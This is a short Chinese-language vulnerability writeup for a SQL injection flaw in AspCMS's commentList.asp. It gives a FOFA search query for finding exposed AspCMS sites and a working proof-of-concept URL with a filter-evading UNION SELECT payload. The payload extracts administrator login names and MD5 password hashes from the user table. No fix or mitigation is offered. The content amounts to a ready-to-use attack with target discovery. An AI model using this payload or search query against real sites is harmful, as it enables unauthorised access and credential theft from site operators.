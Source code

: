 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## FOFA

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS

![img](./images/202202170904613.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](./images/202202170904678.png)

成功获取管理员账号以及密码的MD5